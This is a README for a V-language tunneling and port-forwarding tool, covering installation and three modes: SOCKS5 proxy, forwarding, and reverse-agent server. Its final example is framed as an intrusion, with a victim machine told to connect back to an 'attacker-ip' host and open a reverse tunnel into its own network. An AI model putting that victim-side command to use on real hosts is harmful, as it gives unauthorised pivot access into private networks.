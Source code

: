 # vfwd
> Tunneling and port forwarding tool written in Vlang

## Installation

1. Install V from the [website](https://vlang.io/) or the [official github repository](https://github.com/vlang/v).

2. Clone the repository and compile

```bash
$ git clone https://github.com/LvMalware/vfwd
$ cd vfwd
$ v -prod .
```

3. Copy the binary to some directory in your PATH

You can cross-compile it to windows by using `mingw-w64` or download a prebuilt binary from the releases section.

## Usage

```
Usage: vfwd [flags] [commands]

A V tool for tunneling and port fowarding

Flags:
  -h  --help          Prints help information.
  -v  --version       Prints version information.
      --man           Prints the auto-generated manpage.

Commands:
  standalone          Run as a standalone SOCKS5 proxy server
  forward             Run forward mode
  server              Run as a server for remote forward
  help                Prints help information.
  version             Prints version information.
  man                 Prints the auto-generated manpage.

```

`vfwd` supports three modes of operation: `standalone`, `forward` and `server`.

In `standalone` mode, it acts as a regular SOCKS5 proxy listening on an specified address (*:1080 by default).

Example:

```bash
$ vfwd standalone
```

In `forward` mode, it can be used to forward traffic from one port/address to another or even traffic from a remote host acting as a SOCKS5 proxy server. Example:

```bash
$ vfwd forward --from *:8443 --to duckduckgo.com:443
```

In `server` mode, it will serve as a SOCKS5 proxy that forwards the traffic through a remote agent (with reverse connection). Example:

> On the attacker's machine, run:
```bash
$ vfwd server --socks-listen *:1080 --control-listen *:1337
```

> On the victim's machine, run
```bash
$ vfwd forward --from attacker-ip:1337 -r
```
